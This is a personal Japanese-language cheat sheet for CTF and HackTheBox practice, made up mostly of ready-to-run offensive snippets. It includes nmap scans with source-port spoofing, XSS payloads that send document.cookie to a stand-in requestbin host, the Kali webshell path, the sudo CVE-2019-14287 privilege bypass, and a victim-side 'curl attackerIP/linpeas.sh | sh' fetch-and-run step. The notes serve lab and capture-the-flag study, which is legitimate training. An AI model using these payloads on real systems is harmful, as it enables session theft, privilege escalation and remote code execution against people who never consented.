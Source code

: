 # Memo
### ctfとかhtbとか  

#### nmap

```sudo nmap -sS -p- IP```  
全ポートのスキャン(時間はかかる)  

```nmap -sV -A -p 21-25,35,43,69,80-88,107-110,115,118,123,137-139,143,156,161-162,220,384,389,443-445,465,514,530,543-544,591,593,636,901-903,953,992,995,1025,1433-1434,1812,3000,3306,3389,3535,5000,5432,7777,8008,8080,8443,8888 IP```  
> -sV -A  

でバージョン情報とかを得るようになる(指定しているポートは可能性のありそうなポート)  

```nmap -sV -A -g 53 -p 21-25,35,43,69,80-88,107-110,115,118,123,137-139,143,156,161-162,220,384,389,443-445,465,514,530,543-544,591,593,636,901-903,953,992,995,1025,1433-1434,1812,3000,3306,3389,3535,5000,5432,7777,8008,8080,8443,8888 IP```  
> -g 53  

で送信元ポートを53(DNS)に偽装する  

<br>  

#### XSS  
```'';!--"<XSS>=&{()}```  
> 上を入力して表記が崩れたらXSSいけるかも  
> 参考 https://jpcertcc.github.io/OWASPdocuments/CheatSheets/XSSFilterEvasion.html#XSS_Locator  

```<script>fetch('https://requestbin.example.com?data=${document.cookie}')</script>```  
> 上のはCookieをrequestbin.example.com(例なので存在しない)に送信するスクリプト  
> 上のrequestbin.example.comに対応するものは例えばhttps://requestbin.com/  

```<script src="data:,document.location='https://requestbin.example.com?data='+document.cookie"></script>```  
> こっちも有り  

<br>  

#### webshell   
```/usr/share/webshells/php/simple-backdoor.php```
> Kaliにはwebshellも用意されている  

<br>  

#### 権限昇格関連  

```ps aux```  
> 実行中のプロセスを表示  

```sudo -u#-1 whoami```  
> CVE-2019-14287  

```attacker:~/enum$ sudo python -m SimpleHTTPServer 80```  
```victim$ curl attackerIP/linpeas.sh | sh```  
> attacker:~/enumフォルダには  
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite  
https://github.com/diego-treitos/linux-smart-enumeration  
https://github.com/rebootuser/LinEnum  
などのEnumツールが入ってると仮定  
上の例ではlinpeas.shを指定している



<br>  

#### スタック時のアドバイス  
・キーワードになりそうなもの(些細なものでも)を一旦メモか何かにまとめる．  
